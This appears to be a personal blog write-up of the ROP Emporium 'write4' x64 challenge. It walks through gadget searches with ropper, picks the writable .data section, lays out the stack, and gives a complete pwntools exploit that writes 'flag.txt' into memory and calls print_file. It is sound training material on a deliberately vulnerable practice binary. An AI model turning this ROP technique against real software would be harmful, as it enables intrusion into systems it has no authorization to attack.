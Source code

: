```yaml
---
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-4
title: ROP x64 Challenge 4
status: done
type: page
published: true
comments: true
date: 2022-07-13
---
```

## Challenge 4


Once more into the breach with these rop exploits friends. We have a pretty simular situation to the 2nd challenge.

> **Important!**  
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

All we need to do is call the print_file function with the first argument being a pointer to a string containing "flag.txt". The one problem is a complete lack of that string in the binary. I used `strings` and `rabin2` to attempt to find them and found nothing.

Now considering this challenge is called write4 and it has a whole section on how to write to memory in the challenge description, I deduced I needed to write that string into memory. The challenge sudgests looking for something in the form `mov [reg], reg` so that's what I did.

```

pwndbg> ropper -- --search "mov [???],???
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???],???

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 

```
and look at that. I found 2 gadgets that might work. Now, I'd rather work with moving as much data at once which means using the r15 (8 bytes) rather then the edi (4 bytes), so that's the one I looked for first. 

```
pwndbg> ropper -- --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400690: pop r14; pop r15; ret; 
```

This provides a perfect gadget to populate the write gadgets with whatever value we want. 

The question now is where to write our string to the binary. So we are going to use the `vmmap` cmd to look at what parts of the memory is writable

```
Looking at the perms on parts of the code we see the following areas are able to be written to
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

Note: the above is trimmed to only show the writable sections

The string is "flag.txt" which is 9 bytes long (including the null byte) which gets rid of a couple of the sections. So I chose the .data section of the binary to write into. 

The last gadget we'll need is something to control rdi for the parameter pass to the print_file

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400693: pop rdi; ret; 
```

Finally let's find the print_file function mentioned in the description.
```
disass print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
```

Now with all of the information let's craft our stack layout. 

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r14 and r15
8  bytes | write loc      | # place location to write into r14
8  bytes | "flag.txt"     | # 1st 8 bytes of the string
8  bytes | write gadget   | # gadget to write into memory
8  bytes | pop_r gadget   | # do all of that again for the final null byte
8  bytes | "\x00"         | #     Note: bytes after may be init to null 
8  bytes | write loc + 8  | #           so you don't have to do this one
8  bytes | write gadget   |
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```


Coded up this gives the following exploit.

```python
#!/usr/bin/python3

from pwn import *

pop_gaget       = p64(0x0000000000400690)
write_gaget     = p64(0x0000000000400628)
pop_rdi         = p64(0x00400693)
write_loc       = 0x601028
print_file      = p64(0x00400510)
back_junk       = b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
def string_place(write_string, write_start):
        returnPayload = b""
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                #destination
                returnPayload += p64( write_start+ (i))
                temp = write_string[i:i+8] 
                temp += b"\x00" * ( 8 - len(temp) )
                returnPayload += temp
                returnPayload += write_gaget

        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload


io = process('./write4')

# This is the vaddr of system
# First return to the location of the pop rdi
# 4   0x00400510 GLOBAL FUNC       print_file
#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk

print("The payload is:")
print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))

sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```

Note: I started writing my exploits into files for easier debugging in gdb. Before I would run the exploit and then attach gdb for debugging with `gdb -p $pid` but now I can just do `r < ./payload` within gdb which is nice

